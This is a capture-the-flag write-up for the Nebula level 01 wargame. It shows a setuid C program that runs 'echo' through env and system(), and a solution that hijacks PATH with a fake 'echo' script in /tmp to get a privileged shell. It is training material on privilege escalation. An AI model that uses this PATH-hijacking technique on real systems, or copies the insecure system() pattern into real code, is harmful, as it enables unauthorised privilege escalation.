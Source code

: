 .. _nebula01:

.. role:: bash(code)
	  :language: bash
.. role:: c(code)
	  :language: c
		     
Nebula level 01
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level01/

**Source Code**

.. code-block:: c
		
		#include <stdlib.h>
		#include <unistd.h>
		#include <string.h>
		#include <sys/types.h>
		#include <stdio.h>

		int main(int argc, char **argv, char **envp)
		{
		    gid_t gid;
		    uid_t uid;
		    gid = getegid();
		    uid = geteuid();

		    setresgid(gid, gid, gid);
		    setresuid(uid, uid, uid);

		    system("/usr/bin/env echo and now what?");
		}

Solution
--------

Export :bash:`PATH` first

:bash:`$ export PATH=/tmp:$PATH`

On :bash:`tmp` create a bash script with this and name it echo (without extension):

.. code-block:: bash
		#!/bin/bash
		bash

:bash:`$ chmod 777 echo`

and last execute

:bash:`getflag` 

